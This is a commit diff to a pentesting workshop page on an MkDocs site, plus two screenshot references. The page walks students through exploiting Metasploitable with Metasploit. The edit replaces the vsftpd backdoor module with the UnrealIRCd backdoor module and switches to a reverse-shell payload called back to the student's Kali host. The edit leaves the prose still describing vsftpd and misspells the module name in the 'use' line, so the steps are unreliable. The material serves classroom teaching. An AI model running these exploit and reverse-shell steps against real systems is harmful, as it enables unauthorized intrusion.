

Before and after one commit to amerck/merckedsec, an MkDocs documentation site: the page built from docs/classes/pentesting_workshop_2021.md, in a window 1280 px wide and 1400 px high, scrolled down 913 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update pentesting_workshop_2021.md

````diff
--- a/docs/classes/pentesting_workshop_2021.md
+++ b/docs/classes/pentesting_workshop_2021.md
@@ -45,20 +45,20 @@ msfconsole
 Once Metasploit has started, we’ll use the following command to search for a relevant exploit for the vulnerable service.
 
 ```
-search vsftp
+search unrealirc
 ```
 
 After this command is completed, we should see at least one vulnerability pertaining to vsftpd. We’ll use the following command to get a little more information about the vulnerability.
 
 ```
-info exploit/unix/ftp/vsftpd_234_backdoor
+info exploit/unix/irc/unreal_ircd_3281_backdoor
 ```
 
 Running this command shows that the exploit works against vsftpd 2.3.4. If we revisit the Nmap scan results, we should see that the server is running this version. Therefore, we’ll go ahead and activate this exploit.
 
 
 ```
-use exploit/unix/ftp/vsftpd_234_backdoor
+use exploit/unix/irc/unreal_ircd_3281_backdoors
 ```
 
 Now that we have specified which exploit we want to use, we’ll need to set a few options for the exploit to properly work. This can be viewed using the following command:
@@ -76,7 +76,17 @@ set RHOSTS <metasploitable_ip>
 Finally, running an exploit without a payload is relatively useless. If we begin by typing “set payload” and the tab key a couple of times, Metasploit should autocomplete this field. We see that there is only one option. Let’s go ahead and specify that payload.
 
 ```
-set payload cmd/unix/interact
+set payload cmd/unix/reverse
+```
+
+Next, we'll show options again to see if the payload has any options.
+
+```
+show options
+```
+
+```
+set LHOST <your_kali_ip_or_hostname>
 ```
 
 Everything should now be complete. Let’s type “show options” one more time to verify that there aren’t any additional payload options to specify. There shouldn’t be, so let’s go ahead and run our exploit.
````
